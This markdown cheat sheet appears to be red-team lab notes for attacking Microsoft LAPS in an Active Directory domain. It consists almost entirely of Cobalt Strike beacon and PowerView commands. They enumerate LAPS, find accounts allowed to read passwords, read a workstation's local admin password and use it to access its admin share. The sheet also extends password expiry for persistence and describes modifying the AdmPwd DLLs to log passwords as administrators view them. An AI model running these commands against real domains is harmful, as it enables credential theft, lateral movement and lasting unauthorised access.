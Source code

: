 # LAPS

# Check for presence of LAPS 

# LAPS client installed on local machine

    beacon> ls C:\Program Files\LAPS\CSE

# Computer Object having ms-Mcs-AdmPwd and ms-Mcs-AdmPwdExpirationTime attribute set

    powerpick Get-DomainComputer | ? { $_."ms-Mcs-AdmPwdExpirationTime" -ne $null } | select dnsHostName

# LAPS configuration deplayed through GPO

    beacon> powerpick Get-DomainGPO | ? { $_.DisplayName -like "*laps*" } | select DisplayName, Name, GPCFileSysPath | fl

# Download LAPS configuration

    beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{2BE4337D-D231-4D23-A029-7B999885E659}\Machine

    beacon> download \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{2BE4337D-D231-4D23-A029-7B999885E659}\Machine\Registry.pol

# Parse the LAPS GPO Policy file downloaded in previous step 

    PS C:\Users\Attacker> Parse-PolFile .\Desktop\Registry.pol

# Identify the principals who have read right to LAPS password

    beacon> powerpick Get-DomainComputer | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "ms-Mcs-AdmPwd" -and $_.ActiveDirectoryRights -match "ReadProperty" } | select ObjectDn, SecurityIdentifier

    beacon> powershell ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1107

# Use Laps Toolkit to identify Groups & Users who can read LAPS password

    beacon> powershell-import C:\Tools\LAPSToolkit\LAPSToolkit.ps1
    beacon> powerpick Find-LAPSDelegatedGroups
    beacon> powerpick Find-AdmPwdExtendedRights

# View the LAPS password for given machine (From User Session having required rights)

    beacon> powerpick Get-DomainComputer -Identity wkstn-1 -Properties ms-Mcs-AdmPwd
    beacon> powerpick Get-DomainComputer -Identity wkstn-1 -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime

# Use the laps password to gain access

    beacon> make_token .\LapsAdmin 1N3FyjJR5L18za
    beacon> ls \\wkstn-1\c$

# Set Far Future date as expiry (Only machine can set its Password)

    beacon> powerpick Set-DomainObject -Identity wkstn-1 -Set @{'ms-Mcs-AdmPwdExpirationTime' = '136257686710000000'} -Verbose

# LAPS Backdoor
- Modify the AdmPwd.PS.dll and AdmPwd.Utils.dll file located at C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\ location to log the LAPS password everytime it is viewed by the admin user

